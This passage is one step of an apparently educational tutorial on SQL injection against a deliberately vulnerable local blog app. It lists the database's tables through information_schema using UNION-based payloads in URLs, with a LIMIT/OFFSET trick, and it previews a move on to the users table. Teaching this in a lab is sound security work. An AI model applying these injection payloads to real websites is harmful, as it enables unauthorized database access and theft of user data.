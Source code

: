 # (e) Get all tables

The plan here is to **list all the tables** of the target database (the database of this app).

The [information_schema](http://dev.mysql.com/doc/refman/5.7/en/information-schema.html) database we discussed in the previous step also store information about all the tables in every database of the server.

This information is stored in a table called **COLUMNS**.

So, to get all the tables of our database we have to query that *COLUMNS* table.
Let say our database is called **insecure_blog** (just like detailed in [env/development.json](../../env/development.json)). The query could be like this:
```shell
SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog'
```

where:
- **table_name** is the column where the table's name get stored,
- **table_schema** is the column where the database's name get stored

> **Note:**
>
>   is important to use **distinct(table_name)** instead of **table_name** alone, because there is one table_name for each column of each table. 
> This means that if one table has 10 columns there will be 10 rows in the table_name column.
> Check this out. This is **information_schema.columns**:
>
> | TABLE_SCHEMA  | TABLE_NAME    | COLUMN_NAME  |
> | ------------- |:-------------:| ------------:|
> | insecure_blog | posts         | id           |
> | insecure_blog | posts         | title        |
> | insecure_blog | posts         | body         |
> | insecure_blog | posts         | date         |
> | insecure_blog | posts         | status       |
> 


Then we inject the query in the browser:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog'),3,4,5,6,7,8,9/slug-name-post'
```

This query, just like in the previous step will return an error:
```javascript
{
  "status": "Error",
  "message": "ER_SUBQUERY_NO_1_ROW: Subquery returns more than 1 row"
}
```

We can use the same trick (*LIMIT + OFFSET*) to get the job done:
```shell
http://localhost:8080/p/2 UNION SELECT 1,(SELECT distinct(table_name) FROM information_schema.columns WHERE table_schema = 'insecure_blog' LIMIT 1 OFFSET 0),3,4,5,6,7,8,9/slug-name-post'
```

And keep **increasing the OFFSET** value to get all the tables.

--

If all went well, we will have 3 tables:

- posts
- comments
- users

Of course we will focous in the **users table**.

But this is for the next step.
That is it for now!!

